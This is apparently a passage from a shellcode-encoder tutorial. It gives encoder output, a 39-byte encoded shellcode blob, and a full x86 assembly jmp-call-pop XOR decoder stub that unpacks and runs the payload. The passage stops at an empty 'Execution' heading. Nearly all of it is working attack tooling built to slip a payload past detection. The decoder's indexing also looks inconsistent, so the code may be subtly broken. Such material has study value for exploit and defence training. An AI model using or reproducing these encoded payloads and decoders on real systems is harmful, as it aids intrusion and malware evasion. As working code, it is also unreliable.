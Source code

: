 ```
$ python3 ACE-Insertion-Encoder.py 
Encoded shellcode ...
\x25\xd4\xe5\xee\xd6\x86\x0c\x0c\x23\x92\x89\xfa\x92\xd5\xbd\x2d\x26\x44\x35\xd2\xbc\xff\x4c\xaf\xf6\x9d\x14\x5e\x84\xd7\xc8\x99\x78\x55\x93\x98\x67\x77\xf7
0x25,0xd4,0xe5,0xee,0xd6,0x86,0x0c,0x0c,0x23,0x92,0x89,0xfa,0x92,0xd5,0xbd,0x2d,0x26,0x44,0x35,0xd2,0xbc,0xff,0x4c,0xaf,0xf6,0x9d,0x14,0x5e,0x84,0xd7,0xc8,0x99,0x78,0x55,0x93,0x98,0x67,0x77,0xf7
Len: 39
```

## The decoder

```ASM
global _start

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax, eax ;al for first byte
	cdq ;dl for XOR
	xor ebx, ebx ; bl for third byte
	xor ecx, ecx ; as a counter


decode:
	mov al, [esi+ecx]
	mov bl, [esi+ecx+1]
	mov dl, [esi+ecx+2]
	xor al, dl
	xor bl, dl
	mov byte [esi], bl
	mov byte [esi+1], al
	add esi, 2
	inc ecx
	cmp ecx, 13
	jz short EncodedShellcode
	jmp decode

call_shellcode:

	call decoder
	EncodedShellcode: db 0x25,0xd4,0xe5,0xee,0xd6,0x86,0x0c,0x0c,0x23,0x92,0x89,0xfa,0x92,0xd5,0xbd,0x2d,0x26,0x44,0x35,0xd2,0xbc,0xff,0x4c,0xaf,0xf6,0x9d,0x14,0x5e,0x84,0xd7,0xc8,0x99,0x78,0x55,0x93,0x98,0x67,0x77,0xf7
```

## Execution
